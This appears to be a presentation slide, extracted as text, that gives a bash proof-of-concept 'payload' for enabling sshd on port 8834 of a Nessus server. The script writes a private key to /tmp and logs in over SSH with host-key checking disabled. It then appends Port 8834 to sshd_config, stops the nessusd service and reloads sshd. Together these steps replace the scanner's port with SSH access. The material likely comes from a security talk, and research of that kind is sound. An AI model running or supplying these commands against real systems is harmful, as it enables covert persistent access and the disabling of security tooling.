

# Enable sshd on Port 8834: Payload (POC)
#/bin/bash

NESSUS_SERVER=“X.X.X.X"
NESSUS_USER=“username"
NESSUS_PRIVATE_KEY="-----BEGIN EC PRIVATE KEY----- …”

echo "${NESSUS_PRIVATE_KEY}" > /tmp/private_key
chmod 400 /tmp/private_key

ssh -oStrictHostKeyChecking=no -i "/tmp/private_key" "${NESSUS_USER}"@"${NESSUS_SERVER}" "sudo sed -i 's/^\#Port\ 22/Port\ 22/' /etc/ssh/sshd_config“

… "sudo echo 'Port 8834' | sudo tee --append /etc/ssh/sshd_config > /dev/null"
… "sudo /etc/init.d/nessusd stop > /dev/null"
… "sudo kill -HUP \$(ps -ef | grep /usr/sbin/sshd | grep -v 'grep' | awk '{print \$2}')"

32